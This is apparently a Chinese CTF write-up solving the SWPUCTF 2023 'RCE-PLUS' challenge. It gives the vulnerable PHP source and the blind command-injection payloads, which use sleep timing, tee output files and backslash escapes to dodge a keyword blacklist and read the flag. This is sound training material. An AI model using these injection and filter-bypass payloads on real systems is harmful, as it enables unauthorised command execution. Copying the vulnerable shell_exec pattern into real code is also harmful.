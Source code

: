 # 【SWPUCTF 2023 秋季新生赛】RCE-PLUS


# [SWPUCTF 2023 秋季新生赛]RCE-PLUS

## 思路
* 源码

  ```
  &lt;?php
  error_reporting(0);
  highlight_file(__FILE__);
  function strCheck($cmd)
  {
      if(!preg_match(&#34;/\;|\&amp;|\\$|\x09|\x26|more|less|head|sort|tail|sed|cut|awk|strings|od|php|ping|flag/i&#34;, $cmd)){
          return($cmd);
      }
      else{
          die(&#34;i hate this&#34;);      
        }
  }
  $cmd=$_GET[&#39;cmd&#39;];
  strCheck($cmd);
  shell_exec($cmd);
  ?&gt; 
  ```
  
  过滤了很多东西，但是空格什么的没过滤
  
  发现是用`shell_exec()`无回显的命令执行，所以把文件写入txt看结果
  
* 判断指令

  ```
  ?cmd=ls / | sleep 5
  ```
  
* 把回显输入文本文件

  &gt; 两种方法
  
  ```
  ?cmd=ls / | tee 1.txt
  ?cmd=ls / &gt; tee 1.txt
  ```
  
  直接访问
  
* 绕过对cat和flag的过滤

  反斜杠绕过

  ```
  ?cmd=c\at /fl\ag | tee 2.txt
  ?cmd=c\at /fl\ag &gt; tee 2.txt
  ```


## Payload

```
?cmd=ls / | tee 1.txt
?cmd=c\at /fl\ag | tee 2.txt
```

## 总结

* 无回显RCE
* WAF绕过

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-swpuctf-2023-%E7%A7%8B%E5%AD%A3%E6%96%B0%E7%94%9F%E8%B5%9Brce-plus/  

